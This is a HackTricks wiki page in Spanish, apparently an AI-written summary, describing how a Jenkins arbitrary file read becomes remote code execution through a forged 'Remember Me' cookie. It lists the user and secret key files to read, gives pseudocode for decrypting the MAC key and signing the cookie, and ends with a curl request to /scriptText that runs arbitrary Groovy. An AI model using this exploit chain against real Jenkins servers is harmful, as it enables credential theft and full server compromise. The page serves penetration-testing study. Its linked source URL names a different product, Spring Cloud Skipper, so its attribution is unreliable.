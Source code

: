 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

En esta publicación del blog es posible encontrar una gran manera de transformar una vulnerabilidad de Inclusión de Archivos Locales en Jenkins en RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este es un resumen creado por IA de la parte de la publicación donde se abusa de la creación de una cookie arbitraria para obtener RCE abusando de una lectura de archivos locales hasta que tenga tiempo para crear un resumen por mi cuenta:

### Requisitos Previos del Ataque

* **Requisito de Funcionalidad:** "Recuerdame" debe estar habilitado (configuración predeterminada).
* **Niveles de Acceso:** El atacante necesita permisos de Lectura/General.
* **Acceso Secreto:** Capacidad para leer tanto contenido binario como textual de archivos clave.

### Proceso de Explotación Detallado

#### Paso 1: Recolección de Datos

**Recuperación de Información del Usuario**

* Acceder a la configuración del usuario y secretos desde `$JENKINS_HOME/users/*.xml` para cada usuario para recopilar:
* **Nombre de usuario**
* **Semilla del usuario**
* **Marca de tiempo**
* **Hash de contraseña**

**Extracción de Claves Secretas**

* Extraer claves criptográficas utilizadas para firmar la cookie:
* **Clave Secreta:** `$JENKINS_HOME/secret.key`
* **Clave Maestra:** `$JENKINS_HOME/secrets/master.key`
* **Archivo de Clave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Paso 2: Falsificación de Cookies

**Preparación del Token**

*   **Calcular Tiempo de Expiración del Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Agrega una hora al tiempo actual
```
{% endcode %}
*   **Concatenar Datos para el Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Desencriptación de la Clave MAC**

*   **Desencriptar Archivo de Clave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertir clave maestra a formato de clave AES128
decrypted = AES.decrypt(macFile, key)  // Desencriptar el archivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo de la Firma**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcular HMAC usando el token y la clave MAC
tokenSignature = bytesToHexString(mac)  // Convertir la MAC a una cadena hexadecimal
```

**Codificación de la Cookie**

*   **Generar Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificar en base64 los datos de la cookie
```
{% endcode %}

#### Paso 3: Ejecución de Código

**Autenticación de Sesión**

* **Obtener Tokens CSRF y de Sesión:**
* Hacer una solicitud a `/crumbIssuer/api/json` para obtener `Jenkins-Crumb`.
* Capturar `JSESSIONID` de la respuesta, que se utilizará junto con la cookie de "recuerdame".

**Solicitud de Ejecución de Comando**

*   **Enviar una Solicitud POST con Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* El script Groovy se puede utilizar para ejecutar comandos a nivel de sistema u otras operaciones dentro del entorno de Jenkins.

El comando curl de ejemplo proporcionado demuestra cómo hacer una solicitud a Jenkins con los encabezados y cookies necesarios para ejecutar código arbitrario de manera segura.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
